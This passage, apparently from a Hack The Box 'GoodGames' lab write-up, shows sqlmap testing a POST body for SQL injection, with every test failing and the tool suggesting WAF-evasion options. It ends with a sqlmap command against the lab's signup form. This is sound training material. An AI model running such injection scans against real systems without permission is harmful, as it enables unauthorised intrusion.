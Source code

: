 [*] starting @ 12:18:23 /2022-12-22/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[12:18:28] [INFO] testing connection to the target URL
[12:18:28] [INFO] testing if the target URL content is stable
[12:18:28] [INFO] target URL content is stable
[12:18:28] [INFO] testing if (custom) POST parameter '#1*' is dynamic
[12:18:29] [WARNING] (custom) POST parameter '#1*' does not appear to be dynamic
[12:18:29] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#1*' might not be injectable
[12:18:29] [INFO] testing for SQL injection on (custom) POST parameter '#1*'
[12:18:29] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[12:18:29] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[12:18:29] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[12:18:29] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[12:18:30] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[12:18:30] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[12:18:30] [INFO] testing 'Generic inline queries'
[12:18:30] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[12:18:31] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[12:18:31] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[12:18:31] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[12:18:32] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[12:18:32] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[12:18:32] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] n
[12:18:38] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[12:18:42] [WARNING] (custom) POST parameter '#1*' does not seem to be injectable
[12:18:42] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'

[*] ending @ 12:18:42 /2022-12-22/
```
**signup**
```
[  1:03PM ]  [ ops@redteam:~/Documents/PT/HTB-goodgames/data ]                                                                                                                       
 $ sqlmap -u "http://goodgames.htb/signup" --data "email=*&name=*&password=*&password2=*"                                                                                            
        ___                                                                                                                                                                          
       __H__                                                                                                                                                                         
 ___ ___[,]_____ ___ ___  {1.6.12#stable}                                                                                                                                            
|_ -| . [,]     | .'| . |                                                                                                                                                            
|___|_  [(]_|_|_|__,|  _|                                                                                                                                                            
      |_|V...       |_|   https://sqlmap.org                                                                                                                                         
                                                                                                                                                                                     
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and fede
ral laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program                                                                     
                                                                                                                                                                                     